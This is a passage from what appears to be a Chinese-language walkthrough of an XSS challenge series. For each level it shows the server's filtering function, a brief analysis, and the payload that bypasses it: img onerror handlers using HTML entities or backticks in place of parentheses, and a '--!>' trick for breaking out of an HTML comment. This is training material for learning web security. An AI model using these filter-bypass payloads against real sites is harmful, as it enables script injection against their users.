input code:

```
1、<img src=x onerror="alert&#x28;1&#x29;">
2、<img src=x onerror="alert`1`">
```

html:

```
1、<img src=x onerror="alert&#x28;1&#x29;">
2、<img src=x onerror="alert`1`">
```

## 0x04

server code:

```
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

Analysis:

```
在上题基础上加了个``反引号过滤；
html实体编码绕过；
```

input code:

```
<img src=x onerror="alert&#x28;1&#x29;">
```

html:

```
<img src=x onerror="alert&#x28;1&#x29;">
```

## 0x05

server code:

```
function render (input) {
  input = input.replace(/-->/g, '笑脸')
  return '<!-- ' + input + ' -->'
}
```

Analysis:

```
将html的-->注释符替换成笑脸...并且输出在html注释中；
使用--!>绕过并跳出注释；
html注释：<!--xxx-->或者<!--xxx!-->
```
